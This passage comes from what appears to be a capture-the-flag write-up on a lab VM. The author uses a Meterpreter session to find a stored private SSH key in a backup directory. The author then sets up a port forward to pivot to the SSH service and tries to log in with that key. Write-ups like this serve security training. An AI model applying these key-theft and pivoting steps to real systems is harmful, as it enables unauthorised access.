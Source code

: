The particularly interesting files found in this search were:

* `/.bak/users/luigi/id_rsa`
* `/.bak/users/luigi/id_rsa.pub`

I headed over to the `/.bak/users/luigi` directory and had a look at what else was in there and found another message file:

```shell_session
meterpreter > cd /.bak/users/luigi
meterpreter > ls
Listing: /.bak/users/luigi
==========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40755/rwxr-xr-x   4096  dir   2017-03-10 15:25:42 +0000  .ssh
100600/rw-------  1766  fil   2017-03-10 16:07:51 +0000  id_rsa
100644/rw-r--r--  399   fil   2017-03-10 16:07:51 +0000  id_rsa.pub
100700/rwx------  145   fil   2017-03-10 15:23:57 +0000  message

meterpreter > cat message
Hi Luigi,

Since you've been messing around with my host, at this point I want to return the favour.
This is a "war", you "naughty" boy!

Mario.
```

As the key was presumably going to get me access to the Warluigi VM, I proceeded to setup another port forward, this time to port 22, and proceeded to try to connect using `id_rsa`:

```shell_session
meterpreter > portfwd add -l 2222 -p 22 -r 192.168.122.122
[*] Local TCP relay created: :2222 <-> 192.168.122.122:22
meterpreter > portfwd

Active Port Forwards
====================

   Index  Local         Remote              Direction
   -----  -----         ------              ---------
   1      0.0.0.0:8080  192.168.122.122:80  Forward
   2      0.0.0.0:2222  192.168.122.122:22  Forward

2 total active port forwards.

```
```
root@kali:~# ssh -i warluigi_rsa/id_rsa warluigi@10.2.0.3 -p 2222

***

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'warluigi_rsa/id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "warluigi_rsa/id_rsa": bad permissions
```
